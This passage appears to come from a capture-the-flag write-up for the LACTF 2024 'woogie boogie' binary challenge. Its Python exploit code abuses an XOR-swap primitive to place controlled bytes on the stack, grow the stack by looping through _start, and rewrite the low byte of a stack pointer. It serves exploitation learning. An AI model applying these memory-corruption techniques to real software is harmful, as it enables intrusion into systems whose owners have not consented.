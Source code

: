 ```c
  *b = *a^*b; // *(&buffer^IMMEDIATE_2) ^= &buffer^IMMEDIATE_2
  *a = *a^*b; // ignore

  buffer = *(long*)((long)&buffer^IMMEDIATE_2);
  assert(buffer == DONOR^IMMEDIATE_1^IMMEDIATE_2);
}
```

So why is this important? Well we can basically get user controlled byte values from stack, by abusing the immediate saved in `boogie` and `woogie`. We simply swap their values with the offset and supplied immediate:

```python
# user controlled byte values in buffer
def create_char(char):
  assert char < 0x100, "char to large"
  woogie_boogie(char, WOOGIE_STACK)
  woogie_boogie(0, char)
```

Sadly this only works if there is enough space allocated on stack, but we can guarantee that by loop main a few times back _start (which allocates 0xe0 bytes per iteration)

```python
# allocate
PAD = 0xe0
BASE = STACK - 0x1f8 # base of buffer

linfo("allocate")
ALLOCS = 7
for i in range(ALLOCS):
  print(f'{i}/{ALLOCS}', end='\r')
  woogie_boogie(START_REF, ROP)
  woogie_boogie(0, 0)
  BASE -= PAD
```

> Note: after reading the [Official Writeup](https://enzo.run/posts/lactf2024/) i realized that using negative offsets probably would have been easier (and wouldn't have required additional allocs).

We now apply all our accumulated knowledge to edit the first byte of any value on stack:

```python
DONOR = base_diff(0x7fffffffe318, 0x7fffffffe370) # donor offset
GOAL_ADR = 0x1248 
DONOR_ADR = 0x1280 # DONOR

assert (GOAL_ADR ^ DONOR_ADR) < 0x100, "difference larger than one byte"
assert ((GOAL_ADR ^ DONOR_ADR) < 0x7) == 0, "can't change first three bits"

# FIRST
char = GOAL_ADR & 0xff # IMMEDIATE_1
ptr = BASE^char # &buffer^IMMEDIATE_1

up = base_diff(ptr)
lhex(ptr, "up: ")
woogie_boogie(up, DONOR) # # *(&buffer^IMMEDIATE_1) = DONOR
create_char(char) # buffer = IMMEDIATE_1
woogie_boogie(B_STACK, 0) # *(&buffer^IMMEDIATE_1) ^= &buffer^IMMEDIATE_1

# SECOND
xor = (DONOR_ADR & 0xff) # ^ char  ^ (GOAL_ADR & 0xff) # IMMEDIATE_2
xor_ptr = BASE^xor # &buffer^IMMEDIATE_2
xor_up = base_diff(xor_ptr) 
woogie_boogie(xor_up, up) # *(&buffer^IMMEDIATE_2) = *(&buffer^IMMEDIATE_1);
create_char(xor) # buffer = IMMEDIATE_2
woogie_boogie(B_STACK, 0) # *(&buffer^IMMEDIATE_2) ^= &buffer^IMMEDIATE_2
```
